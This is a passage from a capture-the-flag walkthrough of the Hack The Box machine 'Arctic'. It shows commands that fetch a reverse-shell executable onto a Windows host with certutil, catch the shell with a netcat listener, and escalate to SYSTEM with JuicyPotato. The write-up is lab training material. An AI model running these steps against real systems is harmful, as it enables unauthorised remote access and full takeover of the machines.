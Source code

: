 - **Transfer the reverse shell:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:57:39(HKT)]
└> python3 -m http.server 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\\ColdFusion8\\runtime\\bin>certutil -urlcache -split -f http://10.10.14.8/revshell_stageless_system.exe C:\\Users\\tolis\\Desktop\\revshell_stageless_system.exe
[...]
CertUtil: -URLCache command completed successfully.
```

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:00:26(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

- **Test the reverse shell:**

```shell
C:\\ColdFusion8\\runtime\\bin>C:\\Users\\tolis\\Desktop\\revshell_stageless_system.exe
C:\\ColdFusion8\\runtime\\bin>
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:00:26(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49492
[...]
C:\\ColdFusion8\\runtime\\bin>whoami
whoami
arctic\\tolis
```

It worked!

- **Setup the netcat listener again and run the exploit with the reverse shell executable as the argument:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:01:36(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

```shell
C:\\ColdFusion8\\runtime\\bin>C:\\Users\\tolis\\Desktop\\JuicyPotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c C:\Users\tolis\Desktop\revshell_stageless_system.exe"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\\SYSTEM

[+] CreateProcessWithTokenW OK
```
